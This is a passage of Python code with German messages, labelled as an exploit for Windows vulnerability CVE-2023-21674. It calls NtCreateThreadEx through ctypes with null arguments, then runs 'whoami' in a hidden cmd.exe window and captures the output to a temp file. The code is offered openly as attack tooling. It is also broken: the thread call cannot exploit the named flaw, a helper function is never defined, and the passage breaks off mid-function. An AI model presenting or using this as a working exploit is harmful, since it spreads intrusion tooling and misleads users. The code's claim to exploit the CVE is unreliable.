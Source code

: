def generate_random_filename(length=8):
    """Generiert einen zufälligen Dateinamen."""
    chars = "abcdef0123456789"
    return ''.join(random.choice(chars) for _ in range(length))

def exploit_cve_2023_21674(output_dir=None):
    """Führt den Exploit für CVE-2023-21674 aus."""
    try:
        kernel32 = ctypes.windll.kernel32
        ntdll = ctypes.windll.ntdll

        if not kernel32 or not ntdll:
            raise OSError("[FEHLER] DLLs konnten nicht geladen werden.")

        NtCreateThreadEx = ntdll.NtCreateThreadEx
        NtCreateThreadEx.argtypes = [ctypes.POINTER(ctypes.wintypes.HANDLE), ctypes.c_uint32, ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID)]
        NtCreateThreadEx.restype = ctypes.c_long

        thread_handle = ctypes.wintypes.HANDLE()
        result = NtCreateThreadEx(ctypes.byref(thread_handle), 0, None, None, None, None, None, None, None, None, None, None, None)

        if result == 0:
            print("[INFO] CVE-2023-21674: Thread erfolgreich erstellt.")
            time.sleep(1)

            if output_dir is None:
                output_dir = tempfile.mkdtemp()
            output_filename = generate_random_filename() + ".txt"
            output_path = os.path.join(output_dir, output_filename)

            for _ in range(3):
                subprocess.run(["cmd.exe", "/c", f"whoami > {output_path}"], capture_output=True, creationflags=subprocess.CREATE_NO_WINDOW)
                if os.path.exists(output_path):
                    break
                time.sleep(0.5)

            if os.path.exists(output_path):
                with open(output_path, "r") as f:
                    output_content = f.read()
                    print(f"[INFO] CVE-2023-21674: Ausgabe: {output_content.strip()}")
                os.remove(output_path)
            else:
                print("[FEHLER] CVE-2023-21674: Ausgabe nach mehreren Versuchen nicht erfasst.")
        else:
            print("[FEHLER] CVE-2023-21674: Thread-Erstellung fehlgeschlagen.")

        if output_dir is not None:
             remove_temp_files(output_dir)
